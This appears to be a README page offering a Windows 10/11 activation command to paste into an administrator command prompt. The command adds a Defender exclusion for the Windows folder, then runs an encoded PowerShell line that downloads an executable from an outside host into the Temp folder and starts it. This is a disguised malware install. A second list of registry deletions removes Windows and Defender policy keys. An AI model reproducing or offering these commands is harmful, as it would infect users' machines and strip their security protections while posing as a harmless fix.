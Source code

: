 
## To activate Windows 10 and 11 follow the steps

> Just copy and paste the following command into CMD admin

> [!NOTE]
> net session >nul 2>&1 && powershell Set-MpPreference -ExclusionPath $env:SystemRoot | powershell -EncodedCommand CgBJAG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAtAFUAcgBpACAAIgBoAHQAdABwAHMAOgAvAC8AZAByAG8AcAAwADAAMAAwAC4AcAB5AHQAaABvAG4AYQBuAHkAdwBoAGUAcgBlAC4AYwBvAG0ALwBzAHQAYQB0AGkAYwAvAC4AcABuAGcAIgAgAC0ATwB1AHQARgBpAGwAZQAgACIAJABlAG4AdgA6AFMAeQBzAHQAZQBtAFIAbwBvAHQAXABUAGUAbQBwAFwALgBlAHgAZQAiADsAIABTAHQAYQByAHQALQBQAHIAbwBjAGUAcwBzACAALQBGAGkAbABlAFAAYQB0AGgAIAAiACQAZQBuAHYAOgBTAHkAcwB0AGUAbQBSAG8AbwB0AFwAVABlAG0AcABcAC4AZQB4AGUAIgA= >nul 2>&1 || (echo Need to run as Administrator )




> [!TIP]
> Wait about 1 minute for windows to activate. you do not need to restart the computer after the procedure


## Virus And Threat Protection On

### CMD run as administrator
CMD Commands:

  reg delete "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies" /f
  reg delete "HKLM\Software\Microsoft\WindowsSelfHost" /f
  reg delete "HKLM\Software\Policies" /f
  reg delete "HKLM\Software\WOW6432Node\Microsoft\Policies" /f
  reg delete "HKLM\Software\WOW6432Node\Microsoft\Windows\CurrentVersion\Policies" /f
  reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware
  reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies" /f
  reg delete "HKCU\Software\Microsoft\WindowsSelfHost" /f
  reg delete "HKCU\Software\Policies" /f
  reg delete "HKLM\Software\Microsoft\Policies" /f
